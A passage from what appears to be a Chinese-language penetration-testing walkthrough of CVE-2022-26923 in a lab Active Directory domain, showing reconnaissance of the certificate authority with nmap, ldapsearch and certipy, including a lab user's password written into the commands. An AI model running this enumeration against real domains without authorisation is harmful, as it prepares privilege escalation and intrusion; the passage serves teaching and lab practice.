     nmap -A 172.16.1.5 -p 389,3268,1433,3389 --script=ssl-cert
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183957412-1407607767.png)

可以看到，DNSHostname 是 **Juggernaut-DC.Juggernaut.local**。同时，此搜索还显示了证书颁发机构是：**Juggernaut-Juggernaut-DC-CA**。

###### **

2.1.2、ldapsearch

**

可以使用 **ldapsearch** 通过 LDAP \[S\] 查询证书颁发机构，具体是通过 LDAP 还是 LDAPS 这取决于域的设置方式：

若通过 LDAPS ，请使用以下命令：

    LDAPTLS_REQCERT=never ldapsearch -v -x -H 'ldaps://172.16.1.5' -D efrost@juggernaut.local -w Coldheart1234 -b "CN=Certification Authorities,CN=Public Key Services,CN=Services,CN=Configuration,DC=juggernaut,DC=local" | grep 'cn'
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183959162-1455325620.png)

若通过 LDAP，请使用以下命令：

    ldapsearch -v -x -H 'ldap://172.16.1.5' -D efrost@juggernaut.local -w Coldheart1234 -b "CN=Certification Authorities,CN=Public Key Services,CN=Services,CN=Configuration,DC=juggernaut,DC=local" | grep 'cn'
    

> 注：通常 LDAPS 不一定会被启用，但 LDAP 一定会启用。

###### **

2.1.3、certipy

**

而对于利用 CVE-2022-26923 漏洞，[Certipy](https://github.com/ly4k/Certipy) 是完成整个攻击过程的最佳工具。这是因为 Certipy 的开发者也是该 CVE 的提出者，所以它是此攻击的最佳工具也就不足为奇了。

要使用 Certipy 提取证书颁发机构，请使用以下命令：

    certipy find juggernaut.local/efrost:Coldheart1234@172.16.1.5
    
    #新版 certipy 用法如下：
    #certipy-ad find -dc-ip 172.16.1.5 -target-ip 172.16.1.5 -u efrost@juggernaut.local -p Coldheart1234
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183958429-333670176.png)

除了提取到证书颁发机构之外，Certipy 还提取出了 CA 配置信息，可以使用 Bloodhound 查看。

#### **

2.2、枚举 ms-DS-MachineAccountQuota

**
